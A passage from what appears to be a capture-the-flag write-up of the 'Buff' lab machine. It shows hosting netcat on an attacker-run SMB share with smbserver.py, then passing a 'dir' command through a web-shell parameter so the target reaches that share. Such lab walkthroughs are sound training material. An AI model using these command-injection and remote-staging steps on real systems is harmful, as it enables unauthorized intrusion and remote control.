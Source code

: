 https://eternallybored.org/misc/netcat/ (Download and unzip netcat for windows in your linux system)

Now, in the folder where the unzipped netcat is located, let's execute the command:
```bash
smbserver.py smbFolder $(pwd) -smb2support
```
![Smbserver](https://github.com/0xLJoseb/Apuntes/blob/main/Buff%20Writeup/Content%26/smbserver.PNG)

In this way we will go to the search engine and make the following request:
```bash
...?telepathy=dir \\[Our IP]\smbFolder
```
Thus, we will see that the items that are part of the netcat folder will be listed 

![dir smb](https://github.com/0xLJoseb/Apuntes/blob/main/Buff%20Writeup/Content%26/dir%20smb.PNG)
